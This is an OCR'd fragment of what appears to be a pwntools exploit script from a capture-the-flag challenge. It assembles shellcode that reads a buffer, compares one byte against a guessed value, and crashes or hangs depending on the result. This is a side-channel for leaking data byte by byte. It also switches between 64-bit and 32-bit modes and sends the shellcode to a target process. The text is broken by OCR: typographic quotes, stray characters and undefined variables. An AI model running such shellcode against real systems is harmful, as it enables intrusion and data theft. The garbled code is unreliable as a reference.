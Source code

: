         retf

    ”’

​

    c2 = pwn.shellcraft.amd64.linux.read(3, buffer=0x410300, count=0x100)

​

    c3 = ”’

        mov rax, 0x410300

        add rax, %d

        mov bl, [rax]

        cmp bl, %d

        jz loop

​

    crash:

        xor rsp, rsp;

        jmp rsp;

​

    loop:

        jmp $\n

    ”’

​

    c2 += c3%(idx, ch)

​

​

    s1 = pwn.asm(sh1, arch=‘amd64’)

    c1 = pwn.asm(c1, arch=‘i386’)

    c2 = pwn.asm(c2, arch=‘amd64’)

​

    shellcode = pwn.asm(shellcode, arch=‘amd64’)

​

    p.sendline(shellcode)

​

    time.sleep(0.1)

​

